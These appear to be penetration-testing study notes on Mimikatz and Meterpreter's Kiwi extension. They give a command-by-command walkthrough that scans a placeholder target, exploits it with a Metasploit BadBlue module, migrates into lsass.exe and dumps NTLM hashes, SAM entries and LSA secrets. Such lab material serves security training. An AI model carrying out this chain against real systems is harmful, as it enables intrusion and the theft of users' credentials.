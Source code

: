 - Mimikatz is a Windows ***post-exploitation tool*** that allows for the ***extraction of clear-text passwords***, **hashes**, and ***Kerberos tickets*** from memory.
- It can be used to extract hashes from the `lsass.exe` process memory where hashes are cached.
- We can utilize the ***pre-compiled mimikatz executable***, alternatively, if we have access to a meterpreter session on a Windows target, we can utilize the inbuilt meterpreter extension `Kiwi`.
Note: ***Mimikatz will require elevated privileges in order to run correctly.***

***

### Practical

##### Scan the Target
```
nmap Target
nmap -sV -p80 Target
```

##### Metasploit
```
use exploit/windows/http/badblue_passthru
set rhosts Target
run
```

##### Migrate the current Process into `lsass.exe`
```
pgrep lsass
migrate pid

or

migrate -N lsass.exe
```

#### Load Kiwi
##### Dump Administrator NTLM hash
```
creds_all
```

##### Extract all the Users NTLM hash
```
lsa_dump_sam
```

##### Find the `syskey`
```
lsa_dump_secrets
```